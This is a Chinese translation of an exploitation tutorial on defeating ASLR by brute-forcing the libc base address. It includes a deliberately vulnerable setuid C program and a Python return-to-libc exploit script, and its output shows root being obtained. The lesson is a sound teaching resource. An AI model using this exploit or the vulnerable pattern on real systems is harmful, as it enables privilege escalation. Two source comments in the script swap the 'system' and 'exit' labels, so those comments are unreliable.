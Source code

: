 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-绕过ASLR-第二篇章(暴力破解)](http://www.csyssec.org/20170102/bypassaslr-bruteforce)》与作者信息：CSysSec出品  


VM Setup: Ubuntu 12.04(x86)

在这篇文章中，我们来看看如果利用暴力破解技术来绕过共享库的地址随机化。  

## 什么是暴力破解

通过此技术，攻击者选择一个特定的libc基地址，然后不断尝试攻击程序，直到成功。如果你幸运的话，这是绕过ASLR最简单的技术。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
编译命令：  

``` bash
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
现在让我们来看看攻击者是如何暴力破解libc基地址的。下面是当开启随机化时，libc不同的基地址：   

```
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b6000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7568000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7595000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d9000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7542000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756a000)
$
```
从上面可知，libc的随机化只局限在8个比特位中。因此，最多只要尝试256次，就可以获取root shell。下面的漏洞利用代码中，选择0xb7595000作为libc的基地址，然后我们再不断尝试  

漏洞利用代码：  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
libc_base_addr = 0xb7595000
exit_off = 0x00032be0             #Obtained from "readelf -s libc.so.6 | grep system" command.
system_off = 0x0003f060           #Obtained from "readelf -s libc.so.6 | grep exit" command.
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = 0x804827d
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)
print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 256):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["./vuln", buf])
 if (not ret):
  break
 else:
  print "Exploit failed"
```
执行上面的漏洞利用代码就可以获取root shell，如下所示  

``` bash
$ python exp.py 
Calling vulnerable program
Number of tries: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
...
Number of tries: 42
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
Number of tries: 43
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意： 类似地，栈地址和堆地址也可以暴力破解！  

